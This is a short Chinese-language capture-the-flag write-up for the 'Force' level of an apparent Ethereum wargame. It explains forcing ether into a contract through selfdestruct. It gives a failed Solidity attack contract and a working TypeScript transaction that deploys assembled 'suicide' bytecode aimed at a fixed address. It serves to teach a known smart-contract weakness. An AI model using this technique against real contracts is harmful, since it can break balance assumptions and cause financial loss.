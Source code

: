 ## 7. Force

不是很明白这题的意图，直接使用`selfdestruct`强行转账即可。

不知道为什么，这么写合约编译出来的代码会自带一个对`msg.value`的检查，该值不为0时交易会被revert。原因未知（后来发现是忘了写payable）。只好直接使用汇编语言。

合约（失败）：

```sol
// SPDX-License-Identifier: MIT
pragma solidity >=0.4.25 <0.9.0;

contract Attacl {
  constructor() {
      selfdestruct(payable(address(0x76aE4F1030BA0FeC76ECE4A891Ca1e5F444CD53C)));
  }
}
```

使用汇编（成功）：

```ts
  alice.sendTransaction({
    to: undefined,
    data: assemble(parse('suicide(0x76aE4F1030BA0FeC76ECE4A891Ca1e5F444CD53C)'), {
      target: "_"
    }),
    value: toWei(0.0001),
    gasLimit: 100000,
  })
```


